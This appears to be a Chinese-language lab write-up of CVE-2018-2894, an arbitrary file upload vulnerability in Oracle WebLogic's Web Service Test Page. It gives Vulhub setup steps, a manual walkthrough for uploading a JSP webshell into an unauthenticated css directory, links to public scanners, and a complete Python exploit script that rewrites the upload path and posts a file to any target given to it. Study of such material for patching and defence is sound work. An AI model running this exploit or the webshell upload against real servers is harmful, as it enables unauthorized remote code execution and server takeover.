 # Weblogic 任意文件上传漏洞 CVE-2018-2894

## 漏洞描述

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
- https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
- https://xz.aliyun.com/t/2458

## 环境搭建

Vulhub执行如下命令，启动weblogic 12.2.1.3：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:7001/console`，即可看到后台登录页面。

执行`docker-compose logs | grep password`可查看管理员密码，管理员用户名为`weblogic`。

![image-20220302203000932](images/202203022030030.png)

登录后台页面，点击`base_domain`的配置，在“高级”中开启“启用 Web 服务测试页”选项：

![image-20220302203542573](images/202203022035688.png)

## 漏洞复现

访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。

此处将目录设置为`ws_utc`应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

![image-20220302203638857](images/202203022036918.png)

然后点击安全 -> 增加，然后上传webshell：

![image-20220302203827084](images/202203022038182.png)

上传后，查看返回的数据包，其中有时间戳：

![image-20220302203933002](images/202203022039062.png)

然后访问`http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`，即可执行webshell：

![image-20220302204103311](images/202203022041348.png)

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

## 漏洞EXP

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

from __future__ import print_function
from builtins import str
import re
import sys
import time
import argparse
import requests
import traceback
import xml.etree.ElementTree as ET


def get_current_work_path(host):
    geturl = host + "/ws_utc/resources/setting/options/general"
    ua = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0'}
    values = []
    try:
        request = requests.get(geturl)
        if request.status_code == 404:
            exit("[-] {}  don't exists CVE-2018-2894".format(host))
        elif "Deploying Application".lower() in request.text.lower():
            print("[*] First Deploying Website Please wait a moment ...")
            time.sleep(20)
            request = requests.get(geturl, headers=ua)
        if "</defaultValue>" in request.content:
            root = ET.fromstring(request.content)
            value = root.find("section").find("options")
            for e in value:
                for sub in e:
                    if e.tag == "parameter" and sub.tag == "defaultValue":
                        values.append(sub.text)
    except requests.ConnectionError:
        exit("[-] Cannot connect url: {}".format(geturl))
    if values:
        return values[0]
    else:
        print("[-] Cannot get current work path\n")
        exit(request.content)


def get_new_work_path(host):
    origin_work_path = get_current_work_path(host)
    works = "/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css"
    if "user_projects" in origin_work_path:
        if "\\" in origin_work_path:
            works = works.replace("/", "\\")
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects\\domains"
            dir_len = len(current_work_home.split("\\"))
            domain_name = origin_work_path.split("\\")[dir_len]
            current_work_home += "\\" + domain_name + works
        else:
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects/domains"
            dir_len = len(current_work_home.split("/"))
            domain_name = origin_work_path.split("/")[dir_len]
            current_work_home += "/" + domain_name + works
    else:
        current_work_home = origin_work_path
        print("[*] cannot handle current work home dir: {}".format(origin_work_path))
    return current_work_home


def set_new_upload_path(host, path):
    data = {
        "setting_id": "general",
        "BasicConfigOptions.workDir": path,
        "BasicConfigOptions.proxyHost": "",
        "BasicConfigOptions.proxyPort": "80"}
    request = requests.post(host + "/ws_utc/resources/setting/options", data=data, headers=headers)
    if "successfully" in request.content:
        return True
    else:
        print("[-] Change New Upload Path failed")
        exit(request.content)


def upload_webshell(host, uri):
    set_new_upload_path(host, get_new_work_path(host))
    files = {
        "ks_edit_mode": "false",
        "ks_password_front": password,
        "ks_password_changed": "true",
        "ks_filename": ("360sglab.jsp", upload_content)
    }

    request = requests.post(host + uri, files=files)
    response = request.text
    match = re.findall("<id>(.*?)</id>", response)
    if match:
        tid = match[-1]
        shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
        if upload_content in requests.get(shell_path, headers=headers).content:
            print("[+] {} exists CVE-2018-2894".format(host))
            print("[+] Check URL: {} ".format(shell_path))
        else:
            print("[-] {}  don't exists CVE-2018-2894".format(host))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))


if __name__ == "__main__":
    start = time.time()
    password = "360sglab"
    url = "/ws_utc/resources/setting/keystore"
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", dest='target', default="http://127.0.0.1:7001", type=str,
                        help="target, such as: http://example.com:7001")

    upload_content = "360sglab test"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'X-Requested-With': 'XMLHttpRequest', }

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.target

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        upload_webshell(target, url)
    except Exception as e:
        print("[-] Error: \n")
        traceback.print_exc()
```

